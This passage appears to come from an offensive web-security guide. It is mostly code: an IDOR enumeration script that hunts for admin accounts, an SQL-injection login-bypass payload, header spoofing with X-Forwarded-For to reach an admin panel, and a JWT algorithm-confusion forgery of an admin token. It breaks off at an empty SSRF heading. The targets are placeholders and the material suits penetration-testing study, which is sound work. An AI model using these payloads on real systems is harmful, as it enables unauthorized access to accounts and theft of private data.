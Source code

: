 ```python
# Example: IDOR to Admin Access Chain
# Step 1: Discover IDOR in user profile endpoint
curl -H "Authorization: Bearer user_token" \
  https://api.target.com/users/123/profile

# Step 2: Enumerate admin user IDs through predictable patterns
for i in range(1, 100):
    response = requests.get(f"https://api.target.com/users/{i}/profile", 
                          headers={"Authorization": f"Bearer {user_token}"})
    if "admin" in response.text:
        admin_id = i
        break

# Step 3: Access admin profile and extract sensitive data
admin_data = requests.get(f"https://api.target.com/users/{admin_id}/profile",
                         headers={"Authorization": f"Bearer {user_token}"})

# Step 4: Use admin information for further attacks or demonstrate impact
```

**Authentication Bypass Techniques**:

```bash
# SQL Injection Authentication Bypass
curl -X POST https://target.com/login \
  -d "username=admin'--&password=anything" \
  -H "Content-Type: application/x-www-form-urlencoded"

# Header-based Authentication Bypass
curl -H "X-Forwarded-For: 127.0.0.1" \
     -H "X-Real-IP: 127.0.0.1" \
     -H "X-Originating-IP: 127.0.0.1" \
     https://target.com/admin/panel

# JWT Algorithm Confusion Attack
# Change algorithm from RS256 to HS256 and sign with public key
import jwt
import requests

# Extract public key from application
public_key = get_public_key_from_app()

# Create malicious token
payload = {"user": "admin", "role": "administrator", "exp": 9999999999}
malicious_token = jwt.encode(payload, public_key, algorithm="HS256")

# Use token for privileged access
headers = {"Authorization": f"Bearer {malicious_token}"}
admin_response = requests.get("https://target.com/admin/users", headers=headers)
```

**SSRF Exploitation Patterns**:
